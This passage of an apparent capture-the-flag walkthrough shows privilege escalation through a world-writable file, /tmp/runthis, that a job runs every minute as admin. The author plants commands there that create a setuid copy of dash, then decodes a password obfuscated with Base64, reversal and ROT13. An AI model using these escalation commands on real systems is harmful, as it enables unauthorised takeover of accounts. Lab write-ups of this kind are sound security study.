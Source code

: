 ```
run every minute with my account privileges.

- Jerry
```

So I just had to create a file called /tmp/runthis with some commands that I wanted executed as the admin user. Seemed pretty straightforward to get a shell as the admin user from here: 

```
sh-4.1$ echo '/home/admin/cat /bin/dash > /tmp/adminshell' > /tmp/runthis
echo '/home/admin/cat /bin/dash > /tmp/adminshell' > /tmp/runthis
sh-4.1$ echo '/home/admin/chmod 4755 /tmp/adminshell' >> /tmp/runthis
echo '/home/admin/chmod 4755 /tmp/adminshell' >> /tmp/runthis
sh-4.1$ cat /tmp/runthis
cat /tmp/runthis
/home/admin/cat /bin/dash > /tmp/adminshell
/home/admin/chmod 4755 /tmp/adminshell
```

After waiting a minute, /tmp/adminshell had been created. I executed it and was elevated to the admin user: 

```
sh-4.1$ ls -l /tmp/adminshell
ls -l /tmp/adminshell
-rwsr-xr-x 1 admin admin 106216 Dec 14 16:04 /tmp/adminshell
sh-4.1$ /tmp/adminshell
/tmp/adminshell
whoami
admin
```

Looking at admin's home directory showed a couple of interesting files; namely cryptedpass.txt, cryptpass.py, and whoisyourgodnow.txt. cryptpass.py takes a string, Base64 encodes it, encodes it with ROT13, and then reverses it:

```python
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```

I played around with it and noticed that the output it generated looked very similar to the one in whoisyourgodnow.txt. So I updated the script to include a function that would decode the encoded string: 

```python
#!/usr/bin/env python
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

def decodeString(str):
    s = str[::-1]
    s = s.encode("rot13")
    return base64.b64decode(s)

print decodeString("=RFn0AKnlMHMPIzpyuTI0ITG")
```
